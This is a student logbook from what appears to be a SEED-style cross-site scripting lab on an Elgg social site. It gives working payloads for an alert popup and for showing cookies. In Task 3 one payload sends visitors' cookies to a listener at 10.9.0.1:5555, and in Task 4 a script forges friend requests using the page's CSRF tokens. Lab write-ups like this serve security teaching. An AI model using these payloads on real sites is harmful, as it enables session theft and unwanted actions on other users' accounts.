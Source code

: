 ### Logbook 10

#### Task 1

In this logbook we are focusing on exploiting XSS vulnerabilities.

Firstly we simply want to inject JavaScript code so that something happens when visiting another person's profile, for example, popping up an alert window. This can be done by inputting

```js 
<script>alert('XSS');</script>
```

in the "brief description" section of the profile.

#### Task 2

The second task is similar to the first but now we want to show the user's cookies.

Inputting

```js 
<script>alert(document.cookie);</script>
```

in the "brief description" section pops that alert with the cookies.

#### Task 3

To send the cookies to an attacker we can try to load an image with a given address in the "src" attribute, which will send a forged GET request to the attacker, given that they are listening on that same IP address. 

Therefore, inputting 

```js 
<script>document.write(’<img src=http://10.9.0.1:5555?c=’ + escape(document.cookie) + ’ >’); </script>
```

sends the user's cookies.

#### Task 4

In this task we're asked to become the target's friend.

Observing the HTTP requests that are sent when a user tries to add another as a friend, we can observe how it's constructed and we can forge a similar request.

This way, we can conclude that we would need to send a GET request with the following structure: `http://www.seed-server.com/action/friends/add?friend=<internal_id>+<timestamp><token><timestamp><token>`

So adding

```js 
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;

    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

in the "About Me" section of the profile will send the friendship request correctly to Samy if any user visits their page.

#### Question 1: 

Those lines are needed so that others cannot send requests as someone else. This security measure avoids impersonations and it needs to happen this way because we don't want to need to prove our identity, for example, by sending login credentials on the request.

#### Question 2: 

Yes, by editing the code with the browser's dev tools and removing the <p> elements, we can write in the box exactly the script that we need. We can conclude that the script is working by visiting Samy's profiles as another user, which doesn't seem to do anything, but refreshing the page shows a change in the button from "Add Friend" to "Remove friend".
